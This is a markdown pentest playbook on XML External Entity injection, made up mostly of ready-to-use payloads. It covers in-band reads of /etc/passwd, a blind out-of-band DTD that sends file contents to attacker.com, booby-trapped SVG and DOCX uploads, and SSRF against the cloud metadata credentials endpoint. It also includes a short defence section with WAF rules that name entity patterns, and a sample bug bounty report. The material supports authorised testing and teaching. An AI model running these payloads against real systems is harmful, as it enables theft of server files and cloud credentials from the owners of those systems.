

# XML External Entity (XXE) Injection

## When to Use
- When the application accepts XML input (e.g., `Content-Type: application/xml` or `text/xml`).
- When uploading XML-based files (DOCX, XLSX, SVG, PDF).
- When altering JSON payloads to XML to see if the server processes it (Content-Type Smuggling).
- To read sensitive local files (e.g., `/etc/passwd`, `C:\Windows\win.ini`).
- To escalate into Server-Side Request Forgery (SSRF) using the XML parser to fetch internal URLs.

## Workflow

### Phase 1: Input Detection & Content-Type Fuzzing

```http
# Concept: Check if the application natively accepts XML. If it accepts JSON, try
# changing the Content-Type to application/xml and sending equivalent XML.

# Original JSON Request:
POST /api/authenticate HTTP/1.1
Content-Type: application/json
{"username": "admin"}

# Modified XML Request:
POST /api/authenticate HTTP/1.1
Content-Type: application/xml
<?xml version="1.0" encoding="UTF-8"?>
<username>admin</username>
```

### Phase 2: Inband XXE (Direct File Read)

```xml
# Concept: Define an external entity that points to a local file, and reference it 
# inside a parameter that gets reflected back in the HTTP response.

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
    <productId>&xxe;</productId>
</stockCheck>

# Expected Output: The response contains the contents of /etc/passwd instead of the productId.
```

### Phase 3: Out-of-Band (OOB) / Blind XXE

```xml
# Concept: If the application does NOT reflect the entity's value in the response,
# force the XML parser to send the file contents to your external server via HTTP/DNS.

# 1. Host a malicious DTD (Document Type Definition) on your server (http://attacker.com/evil.dtd):
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker.com/?data=%file;'>">
%eval;
%exfiltrate;

# 2. Send the exploit payload triggering the remote DTD:
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker.com/evil.dtd"> %xxe;]>
<stockCheck><productId>1</productId></stockCheck>

# 3. Monitor your web server logs. You should see a request like:
# GET /?data=WIN-SERVER-01 HTTP/1.1
```

### Phase 4: XXE via File Uploads (SVG / DOCX)

```xml
# Concept: Modern file formats like SVG (images) and DOCX/XLSX (Office documents)
# are essentially ZIP-compressed XML files.

# SVG Image XXE Payload:
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
<text font-size="16" x="0" y="16">&xxe;</text>
</svg>
# Upload this as avatar.svg. When the server tries to process or rasterize the image, it parses the XXE.

# DOCX XXE:
# 1. Unzip legitimate.docx
# 2. Edit word/document.xml to include the XXE payload.
# 3. Zip back into malicious.docx and upload.
```

### Phase 5: XXE to SSRF

```xml
# Concept: Use the SYSTEM entity to force the XML parser to make HTTP requests
# to internal metadata endpoints or administration panels.

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/"> ]>
<stockCheck>
    <productId>&xxe;</productId>
</stockCheck>
```

#### Decision Point 🔀


## 🔵 Blue Team Detection & Defense
- **Disable External Entities**: The definitive fix is configuring the XML parser to explicitly disallow external entities and DTDs. 
  - Python (lxml): `XMLParser(resolve_entities=False)`
  - Java: `factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);`
- **WAF Rules**: Block inbound requests containing `<!ENTITY` or `SYSTEM "file://`.
- **Content-Type Validation**: Enforce strict matching on Content-Type headers. Do not blindly parse JSON requests as XML just because the header was modified.

## Key Concepts
| Concept | Description |
|---------|-------------|
| XXE | XML External Entity; an attack against an application that parses XML input containing a reference to an external entity |
| DTD | Document Type Definition; defines the structure and the legal elements and attributes of an XML document |
| OOB | Out-Of-Band; stealing data via alternative channels (like DNS or outbound HTTP) when the direct response is masked |

## Output Format
```
Bug Bounty Report: XXE leading to Local File Read
=================================================
Vulnerability: XML External Entity (XXE) Injection
Severity: High (CVSS 8.6)
Target: POST /api/soap/billing

Description:
The SOAP API endpoint implements an insecure XML parser that processes external DTD declarations. By injecting a malicious external entity, an attacker can coerce the backend server into reading arbitrary local files and reflecting their contents in the HTTP response.

Reproduction Steps:
1. Intercept the checkout request to `/api/soap/billing`.
2. Modify the XML payload to include standard entity declarations:
   `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>`
3. Place `&xxe;` within the `<customer_id>` node.
4. Send the request.

Impact:
Full disclosure of local server configuration, source code, and potential escalation to internal network scanning (SSRF) or remote code execution via PHP expect wrapper.
```

## References
- OWASP: [XML External Entity (XXE) Processing](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)
- PortSwigger: [XXE Injection](https://portswigger.net/web-security/xxe)
- PayloadAllTheThings: [XXE Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)
